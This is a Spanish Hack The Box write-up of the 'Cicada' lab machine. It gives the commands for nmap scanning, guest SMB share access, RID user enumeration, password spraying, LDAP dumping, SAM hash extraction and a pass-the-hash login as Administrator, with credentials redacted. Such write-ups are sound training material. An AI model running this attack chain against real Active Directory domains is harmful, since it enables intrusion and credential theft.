 ```yaml
---
title: Cicada
published: 03 Oct 2024
---
```

* * *

En este writeup, exploramos la máquina Cicada de Hack The Box, donde explotamos Active Directory mediante la recopilación de información y la técnica Pass-the-Hash. Finalmente, logramos comprometer el dominio y extraer datos sensibles.

# [](#header-1)RECONOCIMIENTO

Empezaré por scanear todos los protocolos en la máquina objetivo:
  1. Escanear los puertos abiertos.
  2. Escanear los servicios en cada puerto que esté abierto.
	```bash

		nmap -sCV -v 10.10.11.35 -Pn -T3
	
Como resultado encontramos esto:
  ```ruby
  
  Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
	Starting Nmap 7.93 https:nmap.org at 2024-10-02 12:18 CEST
	NSE: Loaded 155 scripts for scanning.
	NSE: Script Pre-scanning.
	Initiating NSE at 12:18
	Completed NSE at 12:18, 0.00s elapsed
	Initiating NSE at 12:18
	Completed NSE at 12:18, 0.00s elapsed
	Initiating NSE at 12:18
	Completed NSE at 12:18, 0.00s elapsed
	Initiating Parallel DNS resolution of 1 host. at 12:18
	Completed Parallel DNS resolution of 1 host. at 12:18, 0.01s elapsed
	Initiating Connect Scan at 12:18
	Scanning 10.10.11.35 [1000 ports]
	Discovered open port 135/tcp on 10.10.11.35
	Discovered open port 53/tcp on 10.10.11.35
	Discovered open port 445/tcp on 10.10.11.35
	Discovered open port 139/tcp on 10.10.11.35
	Discovered open port 464/tcp on 10.10.11.35
	Discovered open port 389/tcp on 10.10.11.35
	Discovered open port 593/tcp on 10.10.11.35
	Discovered open port 88/tcp on 10.10.11.35
	Discovered open port 3269/tcp on 10.10.11.35
	Discovered open port 3268/tcp on 10.10.11.35
	Discovered open port 636/tcp on 10.10.11.35
	Completed Connect Scan at 12:18, 4.00s elapsed (1000 total ports)
	Initiating Service scan at 12:18
	Scanning 11 services on 10.10.11.35
	Stats: 0:00:12 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
	Service scan Timing: About 63.64% done; ETC: 12:18 (0:00:05 remaining)
	Completed Service scan at 12:19, 45.25s elapsed (11 services on 1 host)
	NSE: Script scanning 10.10.11.35.
	Initiating NSE at 12:19
	Completed NSE at 12:19, 40.04s elapsed
	Initiating NSE at 12:19
	Completed NSE at 12:19, 1.60s elapsed
	Initiating NSE at 12:19
	Completed NSE at 12:19, 0.00s elapsed
	Nmap scan report for 10.10.11.35
	Host is up (0.037s latency).
	Not shown: 989 filtered tcp ports (no-response)
	PORT     STATE SERVICE       VERSION
	53/tcp   open  domain        Simple DNS Plus
	88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-10-02 17:18:36Z)
	135/tcp  open  msrpc         Microsoft Windows RPC
	139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
	389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: cicada.htb0., Site: Default-First-Site-Name)
	| ssl-cert: Subject: commonName=CICADA-DC.cicada.htb
	| Subject Alternative Name: othername:<unsupported>, DNS:CICADA-DC.cicada.htb
	| Issuer: commonName=CICADA-DC-CA
	| Public Key type: rsa
	| Public Key bits: 2048
	| Signature Algorithm: sha256WithRSAEncryption
	| Not valid before: 2024-08-22T20:24:16
	| Not valid after:  2025-08-22T20:24:16
	| MD5:   9ec51a2340efb5b83d2c39d8447ddb65
	|_SHA-1: 2c936d7bcfd811b99f711a5a155d88d34a52157a
	|_ssl-date: TLS randomness does not represent time
	445/tcp  open  microsoft-ds?
	464/tcp  open  kpasswd5?
	593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
	636/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: cicada.htb0., Site: Default-First-Site-Name)
```

  En especial encontramos un Active Directory (CICADA-DC.cicada.htb)

* * *

# [](#header-1)Foothold

El foothold en esta máquina es fácil. Vamos a probar un par de cosas:


Vamos a intentar conectarnos con la herramienta NetExec mediante SMB con el usuario "guest" a ver si podemos:

```js
❯ netexec smb 10.10.11.35 -u 'guest' -p '
```
Y nos deja conectarnos:
```ruby
	[*] First time use detected
	[*] Creating home directory structure
	[*] Creating missing folder logs
	[*] Creating missing folder modules
	[*] Creating missing folder protocols
	[*] Creating missing folder workspaces
	[*] Creating missing folder obfuscated_scripts
	[*] Creating missing folder screenshots
	[*] Creating default workspace
	[*] Initializing FTP protocol database
	[*] Initializing LDAP protocol database
	[*] Initializing MSSQL protocol database
	[*] Initializing RDP protocol database
	[*] Initializing SMB protocol database
	[*] Initializing SSH protocol database
	[*] Initializing VNC protocol database
	[*] Initializing WINRM protocol database
	[*] Initializing WMI protocol database
	[*] Copying default configuration file
	SMB         10.10.11.35     445    CICADA-DC        [*] Windows Server 2022 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:False)
	SMB         10.10.11.35     445    CICADA-DC        [+] cicada.htb\guest:
```
Ahora voy a proceder a listar las carpetas que se comparte y encontramos algunas que pueden contener información sensible:

```js
❯ netexec smb 10.10.11.35 -u 'guest' -p '' --shares
```
Y encontramos dos carpetas que son de nuestros interes, HR y DEV, voy a intentar acceder a HR a ver si puedo encontrar algo:
```js
smbclient //10.10.11.35/HR
```
```js
smb: \> ls
	  .                                   D        0  Thu Mar 14 13:29:09 2024
	  ..                                  D        0  Thu Mar 14 13:21:29 2024
	  Notice from HR.txt                  A     1266  Wed Aug 28 19:31:48 2024
```
Y encontramos un .txt en el que dentro de el se encuentra una credencial.
![Texto alternativo](/assets/cicada.png)

Ahora con los usuarios que encontramos en SidTypeUser con este comando:
```js
cme smb 10.10.11.35 -u 'guest' -p '' --rid-brute | grep SidTypeUser
```
Lo metemos en un archivo y aplicamos fuerza bruta para probar esa credencial con todos los usuarios que hemos encontrado:
```js
netexec smb 10.10.11.35 -u users.list -p 'Credencial'
```
Y vemos que esa credencial coincide con el usuario "michael".
![Texto alternativo](/assets/cicada2.png)

Ahora con dumpear toda la información que podamos logueados como este usuario:
```js
ldapdomaindump ldap:/10.10.11.35 -u 'cicada.htb\michael.wrightson' -p "Credencial"
```
![Texto alternativo](/assets/cicada3.png)

Y mirando entre estos archivos, encontramos otra credencial, en este caso de el usuario "david" dentro del archivo (domain_users.grep).

Esta credencial y usuario nos va a permitir acceder a los archivos que se encuentra dentro de la carpeta DEV, ya que con el usuario "michael" no podía acceder.
![Texto alternativo](/assets/cicada4.png)
![Texto altenativo](/assets/cicada5.png)

Encontramos otra credencial dentro de ese archivo .ps1
Asique ahora mediante evil-winrm nos vamos a conectar al AD en busca de la user flag.
```js
evil-winrm -i 'cicada.htb' -u 'emily.oscars' -p 'Credencial'
```
Y ya estamos dentro:

![Texto altenativo](/assets/cicada6.png)

Si buscamos un poco por los directorios, encontramos la user flag:
![Texto altenativo](/assets/cicada7.png)

# [](#header-1)Escalada de Privilegios

Primero de todo voy a ver sobre que tengo privilegios:

![Texto altenativo](/assets/cicada8.png)

Lo que voy a hacer ahora es extraer la base de datos SAM para extraer los hashes NTLM/NTHash que estan almacenadas en el sistema:
```js
pypykatz registry --sam sam system
```
```js
[*] Target system bootKey: 0x3c2b033757a49110a9ee680b46e8d620
	[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
	Administrator:500:NTHASHDELUSUARIOADMINISTRATOR*********
	*******:::
	Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c
	0:::
	DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59
	d7e0c089c0:::
```
Ahora una vez conseguido ese NTHash del usuario "Administrator" nos logueamos utilizando evil-winrm:
```js
evil-winrm -i 10.10.11.35 -u administrator -H "NTHASHdeAdministator"
```
Y ya encontrariamos la root flag.

![Texto altenativo](/assets/cicada9.png)


PWNED!